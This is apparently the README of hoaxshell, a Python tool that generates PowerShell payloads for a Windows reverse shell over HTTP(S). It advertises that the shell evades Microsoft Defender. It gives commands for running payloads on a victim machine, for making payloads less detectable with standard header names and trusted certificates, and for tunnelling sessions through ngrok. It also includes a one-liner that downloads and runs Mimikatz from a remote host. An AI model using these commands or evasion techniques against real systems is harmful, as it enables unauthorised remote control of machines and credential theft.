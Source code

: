 # hoaxshell

[![Python 3.x](https://img.shields.io/badge/python-3.x-yellow.svg)](https://www.python.org/) 
<img src="https://img.shields.io/badge/powershell-%E2%89%A5%20v3.0-blue">
[![Linux](https://svgshare.com/i/Zhy.svg)](https://svgshare.com/i/Zhy.svg)
[![License](https://img.shields.io/badge/license-BSD-red.svg)](https://github.com/t3l3machus/hoaxshell/blob/main/LICENSE.md)
<img src="https://img.shields.io/badge/Maintained%3F-Yes-96c40f">

## Purpose

hoaxshell is an unconventional Windows reverse shell, currently undetected by Microsoft Defender and possibly other AV solutions, solely based on http(s) traffic. The tool is easy to use, it generates it's own PowerShell payload and it supports encryption (ssl).  
  
So far, it has been tested on fully updated **Windows 11 Enterprise**, **Windows Server 2016 Datacenter** and **Windows 10 Pro** boxes (see video and screenshots).

**Disclaimer**: Purely made for testing and educational purposes. 

### Video Presentation  
https://www.youtube.com/watch?v=SEufgD5UxdU

## Screenshots
![usage_example_png](https://raw.github.com/t3l3machus/hoaxshell/master/screenshots/hoaxshell-win11-v2.png)
  
Find more screenshots [here](screenshots/).

## Installation
```
git clone https://github.com/t3l3machus/hoaxshell
cd ./hoaxshell
sudo pip3 install -r requirements.txt
chmod +x hoaxshell.py
```

## Usage
**Important**: As a means of avoiding detection, hoaxshell is automatically generating random values for the session id, URL paths and name of a custom http header utilized in the process, every time the script is started. The generated payload will work only for the instance it was generated for. Use the `-g` option to bypass this behaviour and re-establish an active session or reuse a past generated payload with a new instance of hoaxshell. 

### Basic shell session over http
When you run hoaxshell, it will generate its own PowerShell payload for you to copy and inject on the victim. By default, the payload is base64 encoded for convenience. If you need the payload raw, execute the "rawpayload" prompt command or start hoaxshell with the `-r` argument. After the payload has been executed on the victim, you'll be able to run PowerShell commands against it.  

#### Payload that utilizes `Invoke-Expression` (default)
```
sudo python3 hoaxshell.py -s <your_ip>
```  

#### Payload that writes and executes commands from a file
Use `-x` to provide a .ps1 file name (absolute path) to be created on the victim machine. You should check the raw payload before executing, make sure the path you provided is solid.
```
sudo python3 hoaxshell.py -s <your_ip> -x "C:\Users\\\$env:USERNAME\.local\hack.ps1"
```  

### Recommended usage to avoid detection (over http)
Hoaxshell utilizes an http header to transfer shell session info. By default, the header is given a random name which can be detected by regex-based AV rules. Use -H to provide a standard or custom http header name to avoid detection.
```
sudo python3 hoaxshell.py -s <your_ip> -i -H "Authorization"
sudo python3 hoaxshell.py -s <your_ip> -i -H "Authorization" -x "C:\Users\\\$env:USERNAME\.local\hack.ps1"
```

### Encrypted shell session (https)
```
# Generate self-signed certificate:
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365

# Pass the cert.pem and key.pem as arguments:
sudo python3 hoaxshell.py -s <your_ip> -c </path/to/cert.pem> -k <path/to/key.pem>

```  
The generated PowerShell payload will be longer in length because of an additional block of code that disables the ssl certificate validation.

### Encrypted shell session with a trusted certificate
If you own a domain, use this option to generate a shorter and less detectable https payload by providing your DN with -s along with a trusted certificate (-c cert.pem -k privkey.pem).
```
sudo python3 hoaxshell.py -s <your.domain.com> -t -c </path/to/cert.pem> -k <path/to/key.pem>
```

### Grab session mode
In case you close your terminal accidentally, have a power outage or something, you can start hoaxshell in grab session mode, it will attempt to re-establish a session, given that the payload is still running on the victim machine.
```
sudo python3 hoaxshell.py -s <your_ip> -g
```  
**Important**: Make sure to start hoaxshell with the same settings as the session you are trying to restore (http/https, port, etc).

### Shell session over https using tunneling tools ([Ngrok](https://ngrok.com) / [LocalTunnel](https://localtunnel.me))
Utilize tunnelling programmes like Ngrok or LocalTunnel to get sessions through a secure tunnel to overcome issues like not having a Static IP address or your ISP forbidding Port-Forwarding.

Use `-ng` or `--ngrok` for Ngrok server
```
sudo python3 hoaxshell.py -ng
```

Use `-lt` or `--localtunnel` for LocalTunnel server
```
sudo python3 hoaxshell.py -lt
```

## Limitations
The shell is going to hang if you execute a command that initiates an interactive session. Example:  
```
# this command will execute succesfully and you will have no problem: 
> powershell echo 'This is a test'

# But this one will open an interactive session within the hoaxshell session and is going to cause the shell to hang:
> powershell

# In the same manner, you won't have a problem executing this:
> cmd /c dir /a

# But this will cause your hoaxshell to hang:
> cmd.exe
```  

So, if you for example would like to run mimikatz throught hoaxshell you would need to invoke the commands:
```
hoaxshell > IEX(New-Object Net.WebClient).DownloadString('http://192.168.0.13:4443/Invoke-Mimikatz.ps1');Invoke-Mimikatz -Command '"PRIVILEGE::Debug"'
```
Long story short, you have to be careful to not run an exe or cmd that starts an interactive session within the hoaxshell powershell context.

## News
 - `14/09/2022` - The `-ng` and `-lt` options have been added to generate the PS payload for obtaining sessions using tunnelling tools like ngrok or localtunnel in order to get around limitations like Static IP addresses and Port-Forwarding.
 - `31/08/2022` - Added the `-i` option that generates the PS payload adjusted to use "Invoke-RestMethod' instead of 'Invoke-WebRequest' utility, so now the user can choose (thanks to this [issue](https://github.com/t3l3machus/hoaxshell/issues/8)). I also fixed a bug that existed in the prompt (it sometimes messed the path).  
 - `01/09/2022` - Added the `-H` option which allows users to give a custom name to the (random by default) header utilized in the attack process, carring the shell's session id. This makes the attack less detectable e.g. by using a standard header name e.g. "Authorization".
  - `04/09/2022` - Modifications were made to improve the command delivery mechanism as it included components that could be easily flagged. The `-t` option along with the `https_payload_trusted.ps1` were added. You can now use hoaxshell by supplying a domain name along with a trusted certificate. This will generate a shorter and less detectable https payload.  
  - `06/09/2022` - A new payload was added that writes the commands to be executed in a file instead of utilizing `Invoke-Expression`. To use this, the user must provide a .ps1 file name (absolute path) on the victim machine using the `-x` option.
